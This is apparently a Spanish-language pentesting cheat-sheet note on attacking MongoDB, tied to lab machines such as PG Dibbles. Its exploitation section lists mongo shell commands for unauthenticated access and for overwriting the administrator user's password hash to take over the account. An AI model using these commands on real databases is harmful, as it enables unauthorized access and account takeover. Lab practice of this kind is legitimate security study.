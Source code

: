 
## DESCRIPTION



#### Mas información
* http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html


## EXPLOITATION

Si se permite conectar sin usuario:
```
mongo 192.168.210.110 
show dbs
use admin
db.system.version.find() #ver entradas de la tabla
```

Si no podemos crackear la contraseña podemos intentar cambiarla (por ejemplo si somos capaces de crear un usuario con una contraseña connocida)

```
db.users.updateOne({username: 'administrator'},{$set: {password: '8737729a3ada8674940065008dd87d9bc110221bf02b1048beab6078349e792c'}})

```

![[Pasted image 20230617125744.png]]
## MACHINES

* Hack The Box: 
* PG: Dibbles

